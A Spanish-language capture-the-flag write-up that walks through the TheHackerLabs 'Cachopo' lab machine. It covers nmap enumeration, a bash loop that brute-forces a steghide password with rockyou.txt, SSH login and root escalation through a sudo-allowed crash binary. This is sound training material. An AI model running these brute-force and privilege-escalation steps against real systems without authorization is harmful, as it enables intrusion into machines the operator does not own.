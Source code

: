```yaml
---
title: "TheHackerLabs - Avanzado : [Cachopo]"
date: 2024-08-12 13:35:00 +0200
categories: [CTF, Writeups, TheHackerLabs, Linux, Avanzado]
description: "Explora el desafío CTF 'Cachopo', diseñado para usuarios avanzados en un entorno Linux."
tags: [CTF, Writeups, TheHackerLabs, Linux, Avanzado]
image: /img/posts/CTF/cachopo/cachopo.png
---
```


# Writeup: TheHackerLabs - Cachopo

## Introducción

**Cachopo** es un CTF avanzado creado por TheHackerLabs, diseñado para desafiar las habilidades de los usuarios experimentados en Linux. El objetivo es identificar servicios vulnerables, explotarlos y capturar la flag final. 

🌐 [**Web oficial del CTF: TheHackersLabs - Cachopo**](https://thehackerslabs.com/cachopo/)

---

## 1. Descubrimiento de la Máquina Objetivo

Iniciamos el desafío identificando la dirección IP de la máquina objetivo en nuestra red local utilizando `arp-scan`:

```bash
# arp-scan -I ens36 --localnet
172.18.0.134  00:0c:29:f3:5c:ae    VMware, Inc.
```

La IP de la máquina objetivo es **172.18.0.134**.

---

## 2. Enumeración de Servicios

Realizamos un escaneo completo de puertos utilizando `nmap`:

```bash
# nmap -p- --min-rate 2000 -sS -Pn -oN allports 172.18.0.134
```

**Resultados principales:**
- **22/tcp:** OpenSSH 9.2p1 (Debian)
- **80/tcp:** Apache httpd 2.4.61

El análisis del puerto 80 reveló una redirección a `http://cachopo.thl/`. Configuramos `/etc/hosts` para incluir el dominio:

```bash
# echo "172.18.0.134 cachopo.thl" | tee -a /etc/hosts
```

---

## 3. Análisis del Servidor Web y Datos Ocultos

El sitio web contenía una imagen sospechosa. Usamos **Steghide** para analizarla, pero estaba protegida con contraseña. Realizamos un ataque de fuerza bruta con la lista `rockyou.txt`:

**Script simplificado para fuerza bruta:**
```bash
#!/bin/bash
while read password; do
    steghide --extract -sf cachopo.jpg -p "$password" 2>/dev/null && echo "Contraseña: $password" && break
done < /usr/share/wordlists/rockyou.txt
```

**Resultado:**
```bash
Contraseña: doggies
```

Extrajimos un archivo que nos redirigió a un directorio oculto con más datos sensibles.

---

## 4. Escalación de Privilegios

Nos conectamos al servidor utilizando SSH con las credenciales encontradas y analizamos los permisos del usuario:

```bash
# ssh carlos@172.18.0.134
# sudo -l
User carlos may run the following commands on Cachopo:
    (ALL) NOPASSWD: /usr/bin/crash
```

El binario `/usr/bin/crash` se explotó para escalar privilegios siguiendo las instrucciones de [GTFOBins](https://gtfobins.github.io/gtfobins/crash/).

```bash
carlos@Cachopo:~$ sudo /usr/bin/crash
crash> !/bin/bash
root@Cachopo:/home/carlos# whoami
root
```

## Reflexión Final

El CTF **Cachopo** destaca la importancia de una buena enumeración y el análisis de servicios. Además, pone en práctica habilidades como fuerza bruta y escalación de privilegios. Es un reto ideal para usuarios avanzados que buscan explorar vulnerabilidades reales.

¡Gracias por leer este writeup! Si tienes preguntas, no dudes en contactarme.  
Un saludo,  
Óscar
